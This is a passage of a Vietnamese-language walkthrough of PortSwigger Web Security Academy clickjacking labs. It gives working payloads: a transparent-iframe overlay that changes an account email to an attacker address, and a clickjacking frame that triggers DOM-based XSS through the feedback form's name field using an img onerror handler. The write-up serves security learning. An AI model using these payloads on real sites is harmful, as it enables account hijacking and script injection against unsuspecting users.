 ```
       top:440px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://ac6f1fa31ecac23380c4079b000d00fe.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_script_checkbtn.jpg?raw=true)

Để có được payload như trên phải căn chỉnh nhiều lần để rút ra được những thông số như thế.


### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

Bài lab mô tả về lỗ hổng để chúng ta khai thác là lỗ hổng XSS để gọi hàm print thì sẽ thành công qua bài lab.
Đầu tiên chúng ta có payload để exploit lỗi XSS và gọi hàm print() :
```
<img src=1 onerror=print()>
```
![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_xss_check.jpg?raw=true)

Sau đó chúng ta test thử xem các ô có ô nào bị lỗi XSS thì thấy là biến name không hề validate input đầu vào => exploit name + HTML struct 

Chúng ta có payload sau để exploit web site:

```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:630px;
       left:60px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe
src="https://acb41f951f633851803d2471000c00bf.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
Truy cập exploit server để store lên web site mà chúng ta cần exploit : 
![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_xss_exploitserver.jpg?raw=true)
